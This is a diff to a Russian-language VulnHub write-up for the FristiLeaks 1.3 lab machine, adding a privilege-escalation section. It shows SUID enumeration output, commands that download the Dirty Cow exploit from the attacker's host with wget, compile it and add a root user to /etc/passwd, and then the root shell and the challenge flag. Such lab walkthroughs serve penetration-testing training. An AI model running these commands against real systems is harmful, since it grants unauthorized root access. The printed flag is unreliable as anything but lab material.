

Before and after one commit to 0x2d-pentest/VulnHub, a Markdown page: Lin Basic - FristiLeaks_1.3/writeup.md, the part around the change printed below. Shown: that part at 80% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Lin Basic - FristiLeaks_1.3/writeup.md
+++ b/Lin Basic - FristiLeaks_1.3/writeup.md
@@ -281,14 +295,91 @@ gcc.x86_64                          4.4.7-16.el6                           @base
 /usr/bin/gcc
 ```
 
+### SUID
+```bash
+                      ╔════════════════════════════════════╗
+══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
+                      ╚════════════════════════════════════╝
+╔══════════╣ SUID - Check easy privesc, exploits and write perms
+╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
+strace Not Found
+-rwsr-xr-x. 1 root root 76K Oct 15  2014 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
+-rwsr-x---. 1 root fuse 28K Dec  7  2011 /bin/fusermount
+-rwsr-xr-x. 1 root root 53K Oct 15  2014 /bin/umount  --->  BSD/Linux(08-1996)
+-rwsr-xr-x. 1 root root 35K Nov 10  2015 /bin/su
+-rwsr-xr-x. 1 root root 38K Jul 23  2015 /bin/ping
+-rwsr-xr-x. 1 root root 36K Jul 23  2015 /bin/ping6
+-rwsr-xr-x. 1 root root 11K Aug 18  2015 /sbin/pam_timestamp_check
+-rwsr-xr-x. 1 root root 35K Aug 18  2015 /sbin/unix_chkpwd
+-rwsr-xr-x. 1 root root 51K Nov 10  2015 /usr/bin/crontab
+-rws--x--x. 1 root root 20K Oct 15  2014 /usr/bin/chsh
+---s--x--x. 1 root root 121K Aug 13  2015 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
+-rws--x--x. 1 root root 20K Oct 15  2014 /usr/bin/chfn  --->  SuSE_9.3/10
+-rwsr-xr-x. 1 root root 36K Apr  7  2015 /usr/bin/newgrp  --->  HP-UX_10.20
+-rwsr-xr-x. 1 root root 65K Apr  7  2015 /usr/bin/chage
+-rwsr-xr-x. 1 root root 70K Apr  7  2015 /usr/bin/gpasswd
+-rwsr-xr-x. 1 root root 31K Feb 22  2012 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
+-rwsr-xr-x. 1 root root 252K Aug 13  2015 /usr/libexec/openssh/ssh-keysign
+-rws--x--x. 1 root root 14K Sep 22  2015 /usr/libexec/pt_chown  --->  GNU_glibc_2.1/2.1.1_-6(08-1999)
+-r-s--x---. 1 root apache 14K Aug 24  2015 /usr/sbin/suexec
+-rwsr-xr-x. 1 root root 8.8K Nov 10  2015 /usr/sbin/usernetctl
+```
+
+Загружаю **Dirty Cow** exploit
+![dirty](screenshots/05.dirty.png)
+
+Загружаю на жертву, компилирую и запускаю с параметром **admin** для пароля
+```bash
+bash-4.1$ wget http://192.168.56.106:8888/cow.c
+bash-4.1$ gcc -pthread cow.c -o dirty -lcrypt
+bash-4.1$ ./dirty admin
+/etc/passwd successfully backed up to /tmp/passwd.bak
+Please enter the new password: admin
+Complete line:
+firefart:fikF6I.XwWM36:0:0:pwned:/root:/bin/bash
+
+mmap: 7ff8733aa000
+madvise 0
+
+ptrace 0
+Done! Check /etc/passwd to see if the new user was created.
+You can log in with the username 'firefart' and the password 'admin'.
 
 
-## 📂 Получение доступа
+DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
+```
+
+Получаю **root**
+```bash
+bash-4.1$ su firefart
+Password:
+[firefart@localhost tmp]# id
+uid=0(firefart) gid=0(root) groups=0(root)
+[firefart@localhost tmp]# cd /root
+[firefart@localhost ~]# ls -la
+total 48
+dr-xr-x---.  3 firefart root 4096 Nov 25  2015 .
+dr-xr-xr-x. 22 firefart root 4096 Jul 21 23:51 ..
+-rw-------   1 firefart root 1936 Nov 25  2015 .bash_history
+-rw-r--r--.  1 firefart root   18 May 20  2009 .bash_logout
+-rw-r--r--.  1 firefart root  176 May 20  2009 .bash_profile
+-rw-r--r--.  1 firefart root  176 Sep 22  2004 .bashrc
+drwxr-xr-x.  3 firefart root 4096 Nov 25  2015 .c
+-rw-r--r--.  1 firefart root  100 Sep 22  2004 .cshrc
+-rw-------.  1 firefart root 1291 Nov 17  2015 .mysql_history
+-rw-r--r--.  1 firefart root  129 Dec  3  2004 .tcshrc
+-rw-------.  1 firefart root  829 Nov 17  2015 .viminfo
+-rw-------.  1 firefart root  246 Nov 17  2015 fristileaks_secrets.txt
+[firefart@localhost ~]# cat fristileaks_secrets.txt
+Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]
+
+I wonder if you beat it in the maximum 4 hours it's supposed to take!
+
+Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)
 
 
-
-## ⚙️ Привилегии
-
+Flag: Y0u_kn0w_y0u_l0ve_fr1st1
+```
 
 
 ## 🏁 Флаги
````
Also changed, not shown: other parts of Lin Basic - FristiLeaks_1.3/writeup.md (+17 -2 lines).
